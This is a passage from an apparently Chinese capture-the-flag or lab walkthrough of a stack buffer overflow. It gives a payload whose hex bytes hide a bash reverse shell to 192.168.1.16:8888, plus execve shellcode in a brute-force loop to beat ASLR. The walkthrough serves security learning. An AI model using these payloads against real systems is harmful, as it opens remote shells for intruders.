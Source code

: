 获取到地址`0xbfae41b0`，这时候就可以进行构造`payload`，因为这里是小端序字节，所以地址需要倒写`\xb0\x41\xae\xbf`



```shell
$(python -c 'print("A"*171+"\xb0\x41\xae\xbf"+"\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x36\x2f\x38\x38\x38\x38\x20\x30\x3e\x26\x31\x27")')
```

再次构造后，把上面的语句进行测试，可以看到确实是小端序吧，并且发现`ESP`地址改变，说明靶机内的`alsr`是开启的，地址就会动态变化

![](./pic-9/24.jpg)

那就不可能一次就中，说明这里可能需要多次，那么就写一个循环，注意，这里是一行，也就是可以直接输入，如要多行，可能需要用到EOF等

但是这里的脚本还是不行，测试发现使用`msfvenom`生成的是反弹`shell`，并非是其缓冲区溢出，这个个人不是很熟悉，所以借取网上的wp，代码这样的，不过这段代码我是不理解其含义，后续再学习`\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80`

结合前面的，把循环加上就是这样的构造，这里的ESP地址改变，是因为测试几遍后重新获取的

```shell
for i in {1..10000}; do (./input $(python -c 'print("A"*171+"\x70\x3f\xf8\xbf"+"\x90"*32+ "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')); done
```

直接在终端运行，等待一会，提取成功

![](./pic-9/25.jpg)
